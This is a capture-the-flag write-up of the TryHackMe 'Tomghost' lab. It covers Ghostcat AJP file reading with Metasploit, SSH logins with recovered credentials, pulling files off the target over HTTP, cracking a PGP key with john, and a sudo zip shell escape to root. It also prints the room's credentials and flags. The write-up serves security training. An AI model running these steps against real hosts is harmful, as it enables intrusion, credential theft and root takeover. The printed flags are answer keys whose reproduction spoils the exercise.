 ![Tomghost Screenshot](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/Tomghost%20(THM)/Images/016dea7c96e8b422241016405b571c8b.jpeg?raw=true)

CTF- Tomghost (Tryhackme)

# Enumeration

## Nmap

```jsx
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw

53/tcp   open  tcpwrapped syn-ack ttl 61

8009/tcp open  ajp13      syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
```

- Check cve of 8009

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ searchsploit ajp
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
AjPortal2Php - 'PagePrefix' Remote File Inclusion                                                                                                         | php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                                                                         | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                                                                           | multiple/webapps/49039.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- we found ajp metasploit

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(1).png)

- use msfconsole and search ajp
- use 0
- set up rhosts and exploit

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(2).png)

```jsx
skyfuck:8730281lkjlkjdqlksalks
```

## SSH (22)

- use the above credential and login via ssh

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(3).png)

```jsx
find / -type f -name user.txt 2> /dev/null
```

- use this cmd to find user.txt file

```jsx
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ find / -type f -name user.txt 2> /dev/null
/home/merlin/user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

# Post Exploitation

```jsx
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

- open webshell on skyfuck
- download from our kali

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ wget http://10.10.88.153:8000/tryhackme.asc
-----------------------------------------------
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ wget http://10.10.88.153:8000/credential.pgp
```

First, let’s convert the key into a hash with this command:

```jsx
gpg2john tryhackme.asc > hash.txt
```

Then, start cracking it with John.

```jsx
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(4).png)

```jsx
alexandru 
```

Now that I have the decrypted password, I can decrypt credential.pgp by using:

```jsx
gpg --import tryhackme.asc
gpg -d credential.pgp
```

- `-import` to import the key.
- `d` to decrypt the .pgp file.

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ gpg --import tryhackme.asc
gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ gpg -d credential.pgp
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j 
```

- we login ssh with merlin

It seems we need to use `sudo /zip` to access higher privileges.

```jsx
find / -perm -u=s -type f 2>/dev/null
```

Look for files with the SUID bit, which allows us to run files with elevated privileges beyond the current user.

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(5).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(6).png)

- we can find that in GTFOBins
- we will use that commands

```jsx
TF=$(mktemp -u)
sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(7).png)

Finally, we got the root.

```jsx
# cd /root
# ls
root.txt  ufw
# cat root.txt  
THM{Z1P_1S_FAKE}
```
